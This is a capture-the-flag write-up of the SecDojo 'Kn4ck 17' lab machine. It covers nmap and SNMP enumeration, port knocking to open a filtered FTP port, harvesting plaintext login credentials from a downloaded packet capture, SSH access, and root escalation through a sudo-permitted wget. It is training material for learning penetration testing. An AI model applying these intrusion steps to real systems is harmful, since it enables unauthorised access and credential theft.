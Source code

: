 ```yaml
---
title: "SecDojo - Kn4ck 17"
author: [S4sc0]
subtitle: "Un4ckn0wl3dg3d machine write up"
date: "2023-01-18"
keywords: [Network, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** Kn4ck 17 Lab - Un4ckn0wl3dg3d Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges.

# Enumeration

## Nmap TCP Scan

Began with an nmap TCP scan.

```console
# Nmap 7.92 scan initiated Thu Jan 19 11:28:38 2023 as: nmap -sC -sV -T4 -oA 195nmap 172.16.1.195
Nmap scan report for 172.16.1.195
Host is up (0.00017s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6c:0e:3e:0a:a3:1d:43:7b:f0:27:53:36:d3:82:e3:b7 (RSA)
|   256 9f:66:9b:d7:5b:ca:c4:df:31:42:21:73:df:e1:19:bd (ECDSA)
|_  256 3b:e5:47:86:27:0e:b3:7f:65:83:82:e3:75:ea:37:f4 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As you can see we have ports **22** and **80** open and **21** is protected with a firewall apparently.

## Nmap UDP Scan

Running UDP scan with nmap to see if there's any available services that uses UDP Protocol.

```console
# Nmap 7.92 scan initiated Thu Jan 19 17:40:10 2023 as: nmap -sU -T4 -sC -sV -oN udpscan 172.16.1.195
Nmap scan report for 172.16.1.195
Host is up (0.000095s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 111ca1399bf4665d00000000
|   snmpEngineBoots: 19
|_  snmpEngineTime: 35m43s
| snmp-sysdescr: Linux ip-172-16-1-195 5.3.0-1019-aws #21~18.04.1-Ubuntu SMP Mon May 11 12:33:03 UTC 2020 x86_64
|_  System uptime: 35m42.68s (214268 timeticks)
MAC Address: 0E:50:D3:81:4D:F2 (Unknown)
Service Info: Host: ip-172-16-1-195
```

Found a service called **SNMP** running on port **161** which is interesting! SNMP stands for Simple Network Monitoring Protocol which helps in monitoring devices in a network.

> "SNMP runs on the application layer and consists of a SNMP manager and a SNMP agent. The SNMP manager is the software that is running on a pc or server that will monitor the network devices, the SNMP agent runs on the network device."

> "The database that I just described is called the MIB (Management Information Base) and an object could be the interface status on the router (up or down) or perhaps the CPU load at a certain moment. An object in the MIB is called an OID (Object Identifier)."

**Source:** https://networklessons.com/cisco/ccie-routing-switching/introduction-to-snmp

We can get those OID values in plain text since public community string is enabled, we'll use `snmpwalk` utility to do that.

```console
$ snmpwalk -v1 -c public 172.16.1.195
iso.3.6.1.2.1.1.1.0 = STRING: "Linux ip-172-16-1-195 5.3.0-1019-aws #21~18.04.1-Ubuntu SMP Mon May 11 12:33:03 UTC 2020 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (292262) 0:48:42.62
iso.3.6.1.2.1.1.4.0 = STRING: "FTP service started"
iso.3.6.1.2.1.1.5.0 = STRING: "ip-172-16-1-195"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Bay 7000, 8000, 9000 ...."
...
```

We can see in the last OID value, numbers in an order that is similar to the default **Port Knocking** ports `7000, 8000, 9000`.
<br>
> "In computer networking, port knocking is a method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall rules are dynamically modified to allow the host which sent the connection attempts to connect over specific port(s)"

**Source:** https://en.wikipedia.org/wiki/Port_knocking

# Exploitation

Let's use those ports to perform port knocking, I'll use `knock` command.

```console
knock -v 172.16.1.195 7000 8000 9000 
hitting tcp 172.16.1.195:7000
hitting tcp 172.16.1.195:8000
hitting tcp 172.16.1.195:9000
```

As we sow before port 21 of ftp protocol was blocked by a firewall, to see if the port knocking opened it, I'll do another nmap scan

```console
# Nmap 7.92 scan initiated Thu Jan 19 18:07:22 2023 as: nmap -p 21 -sC -T4 -oN afterKnock 172.16.1.195
Nmap scan report for 172.16.1.195
Host is up (0.00021s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.1.35
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```

Nice we've opened port 21 and we can see that FTP server allows anonymous login, also FTP server contains an interesting file `login.pcap` with an extension that hints that the file is containing captured network traffic.
<br>
Since wireshark doesn't work in the PWN machine, we can use just `strings` command to extract available strings in `login.pcap` file and see if there's anything interesting, but before let's download it.

![](./Figure%2001.jpg)

```console
$ strings login.pcap | more
POST /webapp/login.php HTTP/1.1                                                                                                                   
Host: 192.168.198.156                                                                                                                             
Connection: keep-alive                                                                                                                            
Content-Length: 40                                                                                                                                
Cache-Control: max-age=0
Origin: http://192.168.198.156
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.157 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.198.156/webapp/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
username=kabayla&password=K%40b%40ylA%21
```

There it is we found some credentials but the password looks like it's encoded with URL encoding, let's decode it.

![](./Figure%2002.png)
<br>
**Source:** https://cyberchef.org/

Let's SSH in with these credentials username: **kabayla** and passowrd: **K@b@ylA!**.

![](./Figure%2003.png)

We're in.

## User Flag

![](./Figure%2004.png)

## Root Flag

We still have to get to the root and take the final flag, so simply I checked the commands that can be executed with root privileges using `sudo -l`

![](./Figure%2005.png)

We can see we're able to execute `wget` command with root privileges. I headed to [GTFObins](https://gtfobins.github.io/) website to see how I can exploit it.

![](./Figure%2006.png)

I was able to escalate to root using the above commands.

![](./Figure%2007.png)

# Resources

* https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/
